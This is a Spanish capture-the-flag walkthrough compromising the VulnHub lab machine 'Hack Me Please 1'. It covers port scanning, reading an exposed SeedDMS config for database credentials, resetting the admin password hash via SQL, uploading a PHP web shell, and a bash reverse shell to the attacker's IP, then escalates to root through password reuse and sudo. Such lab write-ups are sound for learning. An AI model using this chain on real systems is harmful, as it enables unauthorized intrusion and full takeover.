

# Link de la Maquina

https://www.vulnhub.com/entry/hack-me-please-1,731/

# Reconocimiento 

Usando Nmap iniciaremos un reconocimiento de los puertos y de los servicios que se están ejecutando a través de ellos 

```bash 

> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.159.132 -oG Ports

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:54 CST
Initiating SYN Stealth Scan at 09:54
Scanning 192.168.159.132 [65535 ports]
Discovered open port 25/tcp on 192.168.159.132
Discovered open port 80/tcp on 192.168.159.132
Discovered open port 21/tcp on 192.168.159.132
Discovered open port 110/tcp on 192.168.159.132
Discovered open port 53/tcp on 192.168.159.132
Discovered open port 143/tcp on 192.168.159.132
Discovered open port 445/tcp on 192.168.159.132
Discovered open port 443/tcp on 192.168.159.132
Discovered open port 135/tcp on 192.168.159.132
Increasing send delay for 192.168.159.132 from 0 to 5 due to 11 out of 20 dropped probes since last increase.
Completed SYN Stealth Scan at 09:54, 26.37s elapsed (65535 total ports)
Nmap scan report for 192.168.159.132
Host is up, received user-set (0.045s latency).
Scanned at 2025-02-26 09:54:09 CST for 26s
Not shown: 65526 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 128
25/tcp  open  smtp         syn-ack ttl 128
53/tcp  open  domain       syn-ack ttl 128
80/tcp  open  http         syn-ack ttl 128
110/tcp open  pop3         syn-ack ttl 128
135/tcp open  msrpc        syn-ack ttl 128
143/tcp open  imap         syn-ack ttl 128
443/tcp open  https        syn-ack ttl 128
445/tcp open  microsoft-ds syn-ack ttl 128
```
  
### Servicios 

```bash 

❯ nmap -sCV -p21,22,53,80,110,135,143,443,444 192.168.150.132 -oN PortsInfo

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:55 CST
Nmap scan report for 192.168.150.132
Host is up (0.00085s latency).

PORT    STATE  SERVICE VERSION
21/tcp  closed ftp
22/tcp  closed ssh
53/tcp  closed domain
80/tcp  open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to the land of pwnland
|_http-server-header: Apache/2.4.41 (Ubuntu)
110/tcp closed pop3
135/tcp closed msrpc
143/tcp closed imap
443/tcp closed https
444/tcp closed snpp
MAC Address: 00:0C:29:FF:34:C8 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```


Bien una vez terminado el escaneo podremos ver que de todos los puertos el 80 es el único del cual tenemos información, un servicio web a través de Apache2 


Al entrar a la pagina podemos ver lo siguiente :


Es una pagina estática no tramita información y si hacemos un reconocimiento de rutas no encontraremos gran cosa , pero aquí es donde tenemos que ver el código fuente y encontrar otras rutas posibles que existen en la pagina 


entre todos los archivos Js que ocupa la pagina tenemos el main.js


dentro del el encontramos otra ruta que existe dentro del servidor en uno de los comentarios 

Dentro de esta ruta encontraremos dos cosas importantes, la primera es un Login que pertenece a un gestor de contenido llamado SeedDMS y lo segundo es la versión de este mismo, correspondiendo a la 5.1.22


Lo primero es ver si existen algunas vulnerabilidades y si las tiene pero, debemos de Loggearnos primero


# Buscando el Repo en Git 

SeedDMS parece ser de código abierto, creo no estoy muy seguro, pero lo que podemos encontrar es lo siguiente:

Haciendo una búsqueda rápida en Google podremos entrar el repositorio en Git  


Y dentro de la carpeta de `conf` encontraremos el archivo de .htacces junto a un comentario de advertencia el cual dice que el archivo /conf/settings.xml no debe de ser accesible desde el navegador

```txt
# Make sure settings.xml can not be opened from outside!
#Redirect /conf/settings.xml /index.php
```


Pues toca probar si hicieron caso a ese comentario 


Bingo tenemos información privilegiada, entre toda esta información encontramos las credenciales para la base de datos  


# Accediendo a la DB 

nos conectaremos a la DB por medio de MySQL 


Procederemos a ver que DB esta usando y que tablas existen


Ok Tenemos Dos tablas interesantes; la primera es `users`

y la segunda tblUsers:

 De estas dos la única que tiene un usuario de Administrador es la segunda por ende ocuparemos este (Es la que ocupa para validar los usuarios del Login SeedDMS)

Ahora bien la contraseña esta encriptada por MD5, aquí puedes hacer dos cosas las cuales funcionan , romper la contraseña para saber que dice o´ encriptas una palabra que quieras a MD5 y luego actualizas la contraseña del usuario administrador (es lo mas rápido )

Si no sabes como actualizar la contraseña es fácil:

```SQL
UPDATE tblUsers
SET pwd='HASH_MD5'
WHERE id = 1;
```

# Dentro de SeedDMS

Y adentro del Panel de Administrador podremos encontrar varias funciones 

Pero recordad los resultados que encontramos en Searchsploit, el cual contaba con una vulnerabilidad de RCE 


Ok es una terminal web con PHP algo muy sencillo de hacer, copiaremos el código de php, y lo pegaremos en un archivo, después lo subiremos al SeedDMS 


Volveremos a la pagina y nos dirigiremos hacia la sección de "add documnets"


aquí cargaremos nuestro documento cmd.php 


Se pondrá la pagina en blanco pero ya subió el archivo, simplemente regresa al inicio de la pagina 


Bien el documento de serachsploit también menciona que veamos el identificador del archivo, en este caso es el numero 4, después de saber el numero identificador del archivo copiaremos la ruta de donde se almacenan los archivos y modificaremos en la parte del link "documnet_id" por nuestro identificador de nuestro archivo 


# Dentro del servidor 

Pues ahora nos enviaremos una reverce shell a nuestra maquina para ello nos pondremos en escucha por algún puerto 


Después en la pagina agregaremos este comando 
```bash
bash -c "bash -i >& /dev/tcp/192.168.150.129/443 0>&1"
```

recuerda urlcodear los "&"


## Tratamiento de la shell

```bash

script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

export TERM=xterm;export SHELL=bash

stty rows 41 columns 192 #Ajustar a tus proporciones 

```


Bien una vez ya dentro procederemos a ver que podemos hacer.
No tenemos permisos de sudo, y no pertenecemos a algún grupo importante y solo tenemos un usuario llamado `saket`


Si recordáis cuando entramos a la DB teníamos un registro de este mismos usuario 

por lo cual parece ser la contraseña, debemos de probar 



Bingo, si es su contraseña por ende ahora somos Saket, y trataremos de ver que tipo de privilegios tenemos como este mismo 
```bash
sudo -l
```

xd


En pocas palabras tenemos todos los privilegios por ende con un simple 
```bash
sudo su
```
nos convertimos en el usuario `root`, y así la maquina esta terminada 

